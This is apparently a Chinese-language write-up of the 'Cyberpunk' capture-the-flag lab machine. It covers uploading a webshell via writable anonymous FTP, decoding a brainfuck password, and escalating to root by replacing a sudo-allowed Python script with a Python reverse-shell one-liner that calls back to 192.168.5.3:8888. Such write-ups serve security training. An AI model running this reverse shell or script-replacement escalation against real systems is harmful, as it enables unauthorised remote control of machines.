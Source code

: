 # Cyberpunk

2025.03.08 https://thehackerslabs.com/cyberpunk/

[video](https://www.bilibili.com/video/BV1fa9QYnESV/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

ftp 可匿名并有写权限，secret.txt 显示信息。发现 ftp 目录中的信息在 80 web 上显示，并且 ftp 有写权限，直接上传 webshell。

得到 web shell 后，进行系统枚举：

```
www-data@Cyberpunk:/$ cat opt/arasaka.txt
++++++++++[>++++++++++>++++++++++++>++++++++++>++++++++++>+++++++++++>+++++++++++>++++++++++++>+++++++++++>+++++++++++>+++++>+++++>++++++<<<<<<<<<<<<-]>-.>+.>--.>+.>++++.>++.>---.>.>---.>.>--.>-----..
```

brainfuck 解码得到 cyberpunk2077 ， 应该是 arasaka 的用户密码。

拿到 user flag：

```
arasaka@Cyberpunk:~$ cat user.txt
41311c28da287ef8acf6ad429c42c5d2
```

sudo -l 显示 (root) PASSWD: /usr/bin/python3.11 /home/arasaka/randombase64.py

目前对 /home/arasaka/randombase64.py 没有直接修改内容权限，但是这个文件在 arasaka 自身目录，可以将其删除，然后新建写入我们需要的执行命令：

```
cd
rm -f randombase64.py
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.5.3",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' > randombase64.py
```

然后执行得到反弹 shell：

```
nc -lvnp 8888
sudo /usr/bin/python3.11 /home/arasaka/randombase64.py
```

读取到 root flag：

```
root@Cyberpunk:~# cat root.txt
344a4a8f53d36e7449957489701b040f

Enhorabuena, has podido desactivar el relic y salvar la vida de V.

La transferencia de eddies a tu cuenta se ha mandado :D
```
